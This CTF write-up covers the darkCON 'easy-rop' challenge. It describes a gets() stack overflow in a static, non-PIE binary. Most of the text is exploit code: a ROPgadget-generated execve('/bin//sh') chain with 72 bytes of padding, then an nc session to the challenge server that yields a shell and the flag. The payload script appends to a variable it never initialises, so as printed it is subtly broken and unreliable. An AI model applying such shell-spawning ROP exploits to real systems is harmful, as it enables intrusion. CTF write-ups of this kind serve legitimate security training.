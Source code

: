 The executable provided prints out two strings, then reads a string with `gets` into a small local (on the stack) buffer. This exposes a well-known buffer overflow attack, where ROP can be used to execute arbitrary code (the goal currently being to get a shell).

The file is statically linked, and PIE is disabled, so any static ROPchain should work fine. One can be generated using `ROPgadget`:

```bash
ROPgadget --ropchain --binary easy-rop
```

which gives a huge payload (I guess it didn't find a good way to set `eax` to a higher value). Adjusting it via debugging (run with `gdb`, check what address ended up as the first return address), 72 bytes of padding are needed before the payload. The final payload generator is:

```python
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
p = "A"*72+p
print p
```

and when the output is given to the remote program, a shell is opened after the prompt:

```bash
$ (python gen.py;cat) | nc 65.1.92.179 49153
Welcome to the darkcon pwn!!
Let us know your name:ls
easy-rop
flag
run.sh
ynetd
cat flag
darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
```
